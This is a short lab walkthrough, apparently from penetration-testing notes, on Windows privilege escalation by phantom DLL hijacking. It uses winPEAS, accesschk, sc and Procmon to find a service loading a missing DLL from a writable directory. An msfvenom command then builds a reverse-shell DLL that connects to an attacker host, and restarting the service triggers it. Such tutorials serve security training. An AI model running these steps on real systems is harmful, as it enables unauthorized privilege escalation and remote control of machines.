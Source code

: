 # Phantom DLL Hijacking

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2871%29.png)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```text
accesschk.exe /accepteula -uvqc user dllsvc
```

![](../../../../.gitbook/assets/image%20%2881%29.png)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```text
 sc qc dllsvc
```

![](../../../../.gitbook/assets/image%20%2874%29.png)

![](../../../../.gitbook/assets/image%20%2888%29.png)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```text
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](../../../../.gitbook/assets/image%20%2878%29.png)

On the main screen, deselect registry activity and network activity.

![](../../../../.gitbook/assets/image%20%28102%29.png)

Start the service:

```text
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2880%29.png)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](../../../../.gitbook/assets/image%20%28103%29.png)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

On Kali, generate a reverse shell DLL named hijackme.dll:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```text
net stop dllsvc
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2890%29.png)





